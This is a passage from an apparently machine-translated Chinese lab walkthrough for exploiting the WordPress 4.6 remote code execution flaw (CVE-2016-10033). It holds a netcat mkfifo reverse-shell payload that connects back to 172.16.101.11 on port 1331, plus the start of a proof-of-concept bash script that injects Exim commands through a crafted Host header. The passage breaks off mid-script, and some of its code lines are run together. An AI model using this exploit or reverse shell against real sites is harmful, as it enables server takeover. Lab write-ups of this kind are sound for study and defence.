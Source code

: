 *![](img/f1fe12fba03d3e3f2afff819cf62d64b.png)*

*图:检查*

*如果我们没有使用**wp-cli**自动完成安装过程，那么我们应该手动完成。*

*要了解更多关于 **WordPress** 的这个漏洞，你可以[点击](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)这里。*

*它已经被配置和安装。用户名和密码**分别是“admin”**和**“admin pass”**。*

*![](img/f3c1e0a824bbb0df0fce6254765c7da2.png)*

*图:Wordpress 安装*

*保存给定的反向 shell 有效负载。*

```
*#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 172.16.101.11 1331 >/tmp/f*
```

***修订版***

*现在保存给定的概念验证。检查是否设置了正确的 http_server 和 target。*

```
*#!/bin/bashfunction prep_host_header() {
      cmd="$1"
      rce_cmd="\${run{$cmd}}";
      rce_cmd="`echo $rce_cmd | sed 's^/^\${substr{0}{1}{\$spool_directory}}^g'`"
      rce_cmd="`echo $rce_cmd | sed 's^ ^\${substr{10}{1}{\$tod_log}}^g'`"
      host_header="target(any -froot@localhost -be $rce_cmd null)"
      return 0
}if [ "$#" -ne 1 ]; then
echo -e "Usage:\n$0 target-wordpress-url\n"
exit 1
fi
target="$1"
http_server="172.16.101.11/rev.sh"# Save payload on the target in /tmp/rev.sh
```